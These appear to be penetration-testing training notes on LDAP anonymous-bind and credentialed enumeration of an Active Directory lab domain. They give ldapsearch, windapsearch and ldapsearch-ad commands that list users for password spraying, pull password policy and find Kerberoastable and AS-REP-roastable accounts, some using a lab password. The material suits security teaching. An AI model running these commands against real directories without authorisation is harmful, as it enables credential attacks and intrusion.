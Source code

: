 # LDAP Anonymous Bind

## Leveraging LDAP Anonymous Bind

LDAP anonymous binds allow unauthenticated attackers to retrieve information from the domain, such as a full listing of users, groups, computers, user account attributes, and the domain password policy. Linux hosts running open-source versions of LDAP and Linux vCenter appliances are often configured to allow anonymous binds.

When an LDAP server allows anonymous base binds, an attacker does not need to know a base object to query a considerable amount of information from the domain. This can also be leveraged to mount a password spraying attack or read information such as passwords stored in account description fields. Tools such as **`windapsearch`** and **`ldapsearch`** can be utilized to enumerate domain information via an anonymous LDAP bind. Information that we obtain from an anonymous LDAP bind can be leveraged to mount a password spraying or AS-REPRoasting attack, read information such as passwords stored in account description fields.

Reference: https://github.com/ropnop/windapsearch

Reference: https://linux.die.net/man/1/ldapsearch

We can use Python to quickly check if we can interact with LDAP without credentials.

```python
Python 3.8.5 (default, Aug  2 2020, 15:09:07) 
[GCC 10.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from ldap3 import *
>>> s = Server('10.129.1.207',get_info = ALL)
>>> c =  Connection(s, '', '')
>>> c.bind()
True
>>> s.info
```

## Using `Ldapsearch`

We can confirm anonymous LDAP bind with ldapsearch and retrieve all AD objects from LDAP.

```
ldapsearch -H ldap://10.129.1.207 -x -b "dc=inlanefreight,dc=local"
```

## Using `Windapsearch`

`Windapsearch` is a Python script used to perform anonymous and authenticated LDAP enumeration of AD users, groups, and computers using LDAP queries. It is an alternative to tools such as `ldapsearch`, which require you to craft custom LDAP queries. We can use it to confirm LDAP NULL session authentication but providing a blank username with `-u ""` and add `--functionality` to confirm the domain functional level.

```
python3 windapsearch.py --dc-ip 10.129.1.207 -u "" --functionality
```

We can pull a listing of all domain users to use in a password spraying attack.

```
python3 windapsearch.py --dc-ip 10.129.1.207 -u "" -U
```

We can obtain information about all domain computers.

```
python3 windapsearch.py --dc-ip 10.129.1.207 -u "" -C
```

This process can be repeated to pull group information and more detailed information such as unconstrained users and computers, GPO information, user and computer attributes, and more.

## Other Tools

There are many other tools and helper scripts for retrieving information from LDAP. This script **`ldapsearch-ad.py`** is similar to `windapsearch`.

We can use it to pull domain information and confirm a `NULL` bind. This particular tool requires valid domain user credentials to perform additional enumeration.

```
python3 ldapsearch-ad.py -l 10.129.1.207 -t info
```

# Credentialed LDAP Enumeration

As with SMB, once we have domain credentials, we can extract a wide variety of information from LDAP, including user, group, computer, trust, GPO info, the domain password policy, etc. `ldapsearch-ad.py` and `windapsearch` are useful for performing this enumeration.

## `windapsearch`

```
python3 windapsearch.py --dc-ip 10.129.1.207 -u inlanefreight\\james.cross --da
```

Some additional useful options, including pulling users and computers with unconstrained delegation.

```
python3 windapsearch.py --dc-ip 10.129.1.207 -d inlanefreight.local -u inlanefreight\\james.cross --unconstrained-users
```

## `Ldapsearch-ad`

This tool can perform all of the standard enumeration and a few built-in searches to simplify things. We can quickly obtain the password policy.

```
python3 ldapsearch-ad.py -l 10.129.1.207 -d inlanefreight -u james.cross -p Summer2020 -t pass-pols
```

We can look for users who may be subject to a Kerberoasting attack.

```
python3 ldapsearch-ad.py -l 10.129.1.207 -d inlanefreight -u james.cross -p Summer2020 -t kerberoast | grep servicePrincipalName:
```

Also, it quickly retrieves users that can be ASREPRoasted.

```
python3 ldapsearch-ad.py -l 10.129.1.207 -d inlanefreight -u james.cross -p Summer2020 -t asreproast
```
